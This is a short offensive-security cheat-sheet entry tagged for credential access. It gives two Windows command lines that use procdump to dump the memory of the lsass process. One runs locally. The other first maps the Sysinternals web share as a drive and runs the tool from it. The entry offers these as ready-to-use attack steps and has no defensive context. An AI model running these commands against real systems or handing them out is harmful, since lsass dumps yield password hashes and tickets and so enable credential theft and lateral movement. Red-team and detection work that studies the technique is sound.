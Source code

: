 # procdump

% procdump, lsass, credentials
#plateform/windows  #target/local   #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## procdump - dump lsass - local
```cmd
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

## procdump - dump lsass - remote
```cmd
net use Z: https://live.sysinternals.com; Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
